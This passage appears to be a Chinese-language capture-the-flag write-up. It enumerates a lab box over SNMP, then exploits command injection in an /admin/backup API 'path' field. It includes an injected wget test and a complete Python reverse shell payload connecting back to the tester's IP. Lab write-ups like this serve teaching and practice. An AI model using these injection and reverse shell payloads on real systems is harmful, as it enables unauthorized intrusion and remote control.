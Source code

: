 ```bash
HOST-RESOURCES-MIB::hrSystemInitialLoadParameters.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-56-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
HOST-RESOURCES-MIB::hrSystemNumUsers.0 = Gauge32: 0
HOST-RESOURCES-MIB::hrSystemProcesses.0 = Gauge32: 235
HOST-RESOURCES-MIB::hrSystemMaxProcesses.0 = INTEGER: 0
HOST-RESOURCES-MIB::hrSystemMaxProcesses.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

## /admin

可以看到，现在用james的身份，/admin 返回

```
{"admin_funcs":{"check db connection":"/check","backup the application":"/backup"}}
```

测试 /admin/check， 返回： {"details":"Not implemented yet!"} 

然后测试 /admin/backup，根据response一点点构造

![Untitled](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303158.png)

### command injection

从API生成backup，考虑到有可能将传入的path作为command的参数，然后执行命令

测试如下命令：

```
{
		"path": "test; wget  http://10.10.14.32 ;"
}
```

本地收到

![Untitled](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303159.png)

## User flag

参考：[https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 下的reverse shell cheat sheet

用bash没有成功，用python的（因为网站基于python的web框架）

```
{
		"path": "test;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.32\",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' "
}
```
